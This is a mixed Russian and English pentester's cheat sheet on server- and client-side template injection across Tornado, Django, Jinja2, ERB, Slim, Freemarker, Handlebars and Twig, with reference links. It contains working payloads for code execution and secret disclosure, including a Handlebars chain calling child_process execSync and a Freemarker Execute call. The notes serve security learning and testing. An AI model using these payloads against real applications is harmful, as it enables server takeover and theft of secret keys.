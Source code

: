 # SSTI/CSTI

Flask & Jinja2 [https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)

Template Injection Workshop (по сути, примеры, как это работает в python, php, java,..): [https://gosecure.github.io/template-injection-workshop/#0](https://gosecure.github.io/template-injection-workshop/#0)

Норм описание для h1 для CSTI: [https://hackerone.com/reports/125027](https://hackerone.com/reports/125027)

## Python

### Tornado

Link: [https://www.tornadoweb.org/en/stable/](https://www.tornadoweb.org/en/stable/)

Basic:

```python
{{ 2*2 }}
{% raw %}
{% import subprocess %}
{% import os %}
{% endraw %}{{ os.popen("whoami").read() }}
```

### Django

#### Django Templates

Link:[ https://docs.djangoproject.com/en/4.1/topics/templates/](https://docs.djangoproject.com/en/4.1/topics/templates/)

Basic:

```python
{% raw %}
{% debug %}
{% endraw %}
{{ setting.SECRET_KEY }}
```

### Jinja2

Link: [https://jinja.palletsprojects.com/en/3.1.x/](https://jinja.palletsprojects.com/en/3.1.x/)

Защита: [sandbox](https://jinja.palletsprojects.com/en/3.1.x/sandbox/) + whitelists

## Ruby

### ERB

Link: [https://puppet.com/docs/puppet/5.5/lang\_template\_erb.html](https://puppet.com/docs/puppet/5.5/lang\_template\_erb.html)

Basic:

```ruby
<%= 7 * 7 %>
```

### Slim

Link: [https://github.com/slim-template/slim](https://github.com/slim-template/slim)

Basic:

```ruby
#{ 7 * 7 }
```

## Java

### Freemarker

Link:[ https://try.freemarker.apache.org/](https://try.freemarker.apache.org/)

Basic:

```java
// Code Execution — id:
${"freemarker.template.utility.Execute"?new()("id")}
```

В коде: [https://habr.com/ru/post/420549/](https://habr.com/ru/post/420549/)

Создаем модель данных:

```java
import freemarker.template.Configuration;
import freemarker.template.Template;
...
// Конфигурация
Configuration cfg = new Configuration(Configuration.VERSION_2_3_27);
// модель данных
Map<String, Object> root = new HashMap<>();
root.put("name", "Freemarker");
// шаблон
Template temp = cfg.getTemplate("test.ftl");
// обработка шаблона и модели данных
Writer out = new OutputStreamWriter(System.out);
// вывод в консоль
temp.process(root, out);
```

Spring поддерживает работу с этим шаблонизатором.

Через класс `freemarker.template.TemplateMethodModelEx` можно расширять команды в шаблонизаторе.

## JavaScript

### Handlebars

Link: [https://handlebarsjs.com/](https://handlebarsjs.com/)

Basic:

```javascript
${{7*7}} -> OK
${{7*'7'}} -> Empty
```

RCE (from [payload all the thing](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#handlebars)):

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

## PHP

### Twig

Таск с CTFZone:&#x20;

* [https://blog.blackfan.ru/2020/03/volgactf-2020-qualifier-writeup.html](https://blog.blackfan.ru/2020/03/volgactf-2020-qualifier-writeup.html)
* [https://github.com/TeamGreyFang/CTF-Writeups/blob/master/VolgaCTF2020/Web-Newsletter/README.md](https://github.com/TeamGreyFang/CTF-Writeups/blob/master/VolgaCTF2020/Web-Newsletter/README.md)

